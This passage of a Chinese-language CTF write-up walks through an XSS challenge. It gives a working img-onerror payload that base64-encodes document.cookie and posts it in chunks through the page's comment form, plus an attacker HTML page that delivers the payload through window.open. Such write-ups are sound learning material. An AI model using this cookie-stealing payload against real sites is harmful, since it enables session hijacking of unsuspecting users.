![](img/image-20231104030129911.png)

可行！

于是构造 payload

```html
<img src=# onerror="document.forms[0].comment.value=btoa(document.cookie).slice(0,25);document.forms[0].submit();">
```

> 这里喵喵气死了，怎么页面上有两个 id 为 comment 的元素，直接用 `document.getElementById('comment')` 只能返回上面的那个 p 标签，于是试了老半天发现怎么没值返回，啊啊啊啊啊！！！
>
> 最后才发现怎么没给 form 里的 comment 赋值……

`btoa` 是 base64 一下防止出现奇妙字符被过滤了，后面发现果然（

`slice` 是因为长度限制

然后 自己的 html

```html
<!DOCTYPE html>
<html lang="en">

<head>
</head>

<body>
    <img src="http://web/?token=114514%3AMiaoTony"
        alt="">
    <script>
        var payload = "<img src=# onerror=\"document.forms[0].comment.value=btoa(document.cookie).slice(50,75);document.forms[0].submit();\">"
        var w = window.open("http://web/result", payload);
        console.log(w);
    </script>
</body>

</html>
EOF
```
